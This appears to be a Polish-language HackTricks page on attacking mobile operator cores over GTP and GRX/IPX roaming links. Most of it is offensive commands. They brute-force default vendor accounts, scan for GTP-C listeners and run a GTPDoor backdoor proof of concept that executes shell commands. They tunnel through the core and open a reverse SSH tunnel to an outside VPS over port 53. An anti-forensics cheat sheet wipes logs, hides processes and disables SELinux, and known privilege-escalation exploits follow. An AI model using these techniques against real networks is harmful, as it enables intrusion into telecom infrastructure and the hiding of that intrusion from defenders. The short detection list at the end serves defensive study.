 # Telecom Network Exploitation (GTP / Roaming Environments)

{{#include ../../banners/hacktricks-training.md}}

> [!NOTE]
> Protokół mobilny (GPRS Tunnelling Protocol – GTP) często przechodzi przez pół-zaufane rdzenie roamingowe GRX/IPX. Ponieważ korzystają z prostego UDP z prawie żadną autoryzacją, **jakiekolwiek wejście wewnątrz perymetru telekomunikacyjnego zazwyczaj może bezpośrednio dotrzeć do rdzeniowych płaszczyzn sygnalizacyjnych**. Poniższe uwagi zbierają ofensywne sztuczki zaobserwowane w terenie przeciwko SGSN/GGSN, PGW/SGW i innym węzłom EPC.

## 1. Recon & Initial Access

### 1.1  Default OSS / NE Accounts
Zaskakująco duża liczba elementów sieciowych dostawców jest dostarczana z twardo zakodowanymi użytkownikami SSH/Telnet, takimi jak `root:admin`, `dbadmin:dbadmin`, `cacti:cacti`, `ftpuser:ftpuser`, …  Dedykowana lista słów znacznie zwiększa sukces brute-force:
```bash
hydra -L usernames.txt -P vendor_telecom_defaults.txt ssh://10.10.10.10 -t 8 -o found.txt
```
Jeśli urządzenie udostępnia tylko VRF zarządzania, najpierw przeskocz przez host skokowy (zobacz sekcję «SGSN Emu Tunnel» poniżej).

### 1.2 Odkrywanie hostów w GRX/IPX
Większość operatorów GRX nadal pozwala na **ICMP echo** wzdłuż rdzenia. Połącz `masscan` z wbudowanymi sondami UDP `gtpv1`, aby szybko zmapować nasłuchiwacze GTP-C:
```bash
masscan 10.0.0.0/8 -pU:2123 --rate 50000 --router-ip 10.0.0.254 --router-mac 00:11:22:33:44:55
```
## 2. Enumerowanie subskrybentów – `cordscan`

Narzędzie Go tworzy pakiety **GTP-C Create PDP Context Request** i rejestruje odpowiedzi. Każda odpowiedź ujawnia aktualny **SGSN / MME** obsługujący zapytany IMSI i, czasami, odwiedzony przez subskrybenta PLMN.
```bash
# Build
GOOS=linux GOARCH=amd64 go build -o cordscan ./cmd/cordscan

# Usage (typical):
./cordscan --imsi 404995112345678 --oper 40499 -w out.pcap
```
Kluczowe flagi:
- `--imsi` Docelowy subskrybent IMSI
- `--oper` Krajowy / HNI (MCC+MNC)
- `-w`      Zapisz surowe pakiety do pcap

Ważne stałe wewnątrz binarnego pliku mogą być zmieniane, aby rozszerzyć skany:
```
pingtimeout       = 3   // seconds before giving up
pco               = 0x218080
common_tcp_ports  = "22,23,80,443,8080"
```
## 3. Wykonanie kodu przez GTP – `GTPDoor`

`GTPDoor` to mała usługa ELF, która **wiąże UDP 2123 i analizuje każdy przychodzący pakiet GTP-C**. Gdy ładunek zaczyna się od wspólnego tagu, reszta jest deszyfrowana (AES-128-CBC) i wykonywana za pomocą `/bin/sh -c`. stdout/stderr są eksfiltrowane w wiadomościach **Echo Response**, aby żadne zewnętrzne sesje nie były nigdy tworzone.

Minimalny pakiet PoC (Python):
```python
import gtpc, Crypto.Cipher.AES as AES
key = b"SixteenByteKey!"
cmd = b"id;uname -a"
enc = AES.new(key, AES.MODE_CBC, iv=b"\x00"*16).encrypt(cmd.ljust(32,b"\x00"))
print(gtpc.build_echo_req(tag=b"MAG1C", blob=enc))
```
Wykrywanie:
* każdy host wysyłający **niezrównoważone żądania Echo** do adresów IP SGSN
* flaga wersji GTP ustawiona na 1, gdy typ wiadomości = 1 (Echo) – odchylenie od specyfikacji

## 4. Przechodzenie przez rdzeń

### 4.1  `sgsnemu` + SOCKS5
`OsmoGGSN` dostarcza emulator SGSN zdolny do **nawiązania kontekstu PDP w kierunku rzeczywistego GGSN/PGW**. Po negocjacji, Linux otrzymuje nowy interfejs `tun0` dostępny z roamingowego partnera.
```bash
sgsnemu -g 10.1.1.100 -i 10.1.1.10 -m 40499 -s 404995112345678 \
-APN internet -c 1 -d
ip route add 172.16.0.0/12 dev tun0
microsocks -p 1080 &   # internal SOCKS proxy
```
Dzięki odpowiedniemu przekierowaniu zapory, ten tunel omija VLAN-y tylko do sygnalizacji i ląduje bezpośrednio w **warstwie danych**.

### 4.2  Odwrócony tunel SSH przez port 53
DNS jest prawie zawsze otwarty w infrastrukturach roamingowych.  Udostępnij wewnętrzną usługę SSH na swoim VPS nasłuchującą na :53 i wróć później z domu:
```bash
ssh -f -N -R 0.0.0.0:53:127.0.0.1:22 user@vps.example.com
```
Sprawdź, czy `GatewayPorts yes` jest włączone na VPS.

## 5. Ukryte kanały

| Kanał | Transport | Dekodowanie | Uwagi |
|-------|-----------|-------------|-------|
| ICMP – `EchoBackdoor` | ICMP Echo Req/Rep | 4-bajtowy klucz + 14-bajtowe kawałki (XOR) | czysty pasywny nasłuchiwacz, brak ruchu wychodzącego |
| DNS – `NoDepDNS` | UDP 53 | XOR (klucz = `funnyAndHappy`) zakodowany w oktetach rekordu A | obserwuje subdomenę `*.nodep` |
| GTP – `GTPDoor` | UDP 2123 | blob AES-128-CBC w prywatnym IE | łączy się z legalnym czatem GTP-C |

Wszystkie implanty implementują watchdogi, które **timestomp** ich binaria i ponownie uruchamiają się w przypadku awarii.

## 6. Arkusz oszustw w zakresie unikania obrony
```bash
# Remove attacker IPs from wtmp
utmpdump /var/log/wtmp | sed '/203\.0\.113\.66/d' | utmpdump -r > /tmp/clean && mv /tmp/clean /var/log/wtmp

# Disable bash history
export HISTFILE=/dev/null

# Masquerade as kernel thread
echo 0 > /proc/$$/autogroup   # hide from top/htop
printf '\0' > /proc/$$/comm    # appears as [kworker/1]

touch -r /usr/bin/time /usr/bin/chargen   # timestomp
setenforce 0                              # disable SELinux
```
## 7. Eskalacja uprawnień w Legacy NE
```bash
# DirtyCow – CVE-2016-5195
gcc -pthread dirty.c -o dirty && ./dirty /etc/passwd

# PwnKit – CVE-2021-4034
python3 PwnKit.py

# Sudo Baron Samedit – CVE-2021-3156
python3 exploit_userspec.py
```
Wskazówka dotycząca czyszczenia:
```bash
userdel firefart 2>/dev/null
rm -f /tmp/sh ; history -c
```
## 8. Narzędzia

* `cordscan`, `GTPDoor`, `EchoBackdoor`, `NoDepDNS` – niestandardowe narzędzia opisane w poprzednich sekcjach.
* `FScan` : skanowanie TCP w intranecie (`fscan -p 22,80,443 10.0.0.0/24`)
* `Responder` : LLMNR/NBT-NS nieautoryzowany WPAD
* `Microsocks` + `ProxyChains` : lekkie pivotowanie SOCKS5
* `FRP` (≥0.37) : przechodzenie przez NAT / mostkowanie zasobów

---
## Pomysły na wykrywanie
1. **Jakiekolwiek urządzenie inne niż SGSN/GGSN nawiązujące żądania utworzenia kontekstu PDP**.
2. **Niestandardowe porty (53, 80, 443) odbierające handshake SSH** z wewnętrznych adresów IP.
3. **Częste żądania Echo bez odpowiadających odpowiedzi Echo** – mogą wskazywać na sygnały GTPDoor.
4. **Wysoka liczba ruchu ICMP echo-reply z dużymi, niezerowymi polami identyfikatora/sekwencji**.

## Odnośniki

- [Palo Alto Unit42 – Infiltracja globalnych sieci telekomunikacyjnych](https://unit42.paloaltonetworks.com/infiltration-of-global-telecom-networks/)
- 3GPP TS 29.060 – Protokół tunelowania GPRS (v16.4.0)
- 3GPP TS 29.281 – GTPv2-C (v17.6.0)

{{#include ../../banners/hacktricks-training.md}}
